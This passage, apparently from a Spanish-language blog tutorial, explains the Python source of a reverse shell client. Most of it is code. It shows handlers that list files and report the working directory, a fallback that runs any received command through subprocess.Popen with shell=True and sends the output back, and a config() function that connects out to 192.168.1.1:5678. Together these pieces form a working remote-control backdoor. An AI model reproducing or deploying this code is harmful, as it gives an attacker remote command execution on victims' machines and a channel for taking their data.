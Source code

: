 Luego, se implementa **los comandos de listado de archivos** soportando ambos sistemas operativos, `ls` para entorno Linux/Mac y `dir` para entorno Windows.
```python
elif command == "ls" or command == "dir":
    try:
        files = os.listdir('.')
        result = '\n'.join(files)
        client.send(result.encode('utf-8'))
    except:
        client.send(b"Error listing directory")
```
Las funciones de este tipo de manejo son las siguientes:
- Lista archivos del directorio actual
- Envía la lista separada por saltos de línea

Por ultimo, en caso de ejemplo del blog, se integro **el manejo de comando** `pwd` encargado de obtener y enviar el directorio actual.
```python
elif command == "pwd":
    result = os.getcwd()
    client.send(result.encode('utf-8'))
```
Finalmente, al final de `def shell()`, se integro una ejecución de comandos generales.
```python
else:
    try:
        proc = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
        stdout, stderr = proc.communicate()
        result = stdout + stderr
        print("Result: ", result)
        
        if len(result) == 0:
            client.send(os.getcwd().encode('utf-8'))
        else:
            client.send(result)
    except:
        client.send(b"Error executing command")
```
La funcionalidad de este apartado, es ejecutar cualquier comando del sistema usando `subprocess.Popen` en caso de que fallen los anteriores. Captura tanto stdout como stderr. Si no hay salida, envía el directorio actual y se encarga de maneja errores de ejecución.

#### Función `config()`
```python
def config():
    global client, ip, port
    
    ip = '192.168.1.1'
    port = 5678
    
    client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    client.connect((ip, port))
    print(f"Connected to {ip}:{port}")
```
En este apartado se configura la conexión TCP, se establece la conexión con el servidor y se declaran las variables globales para el uso en toda la aplicación.
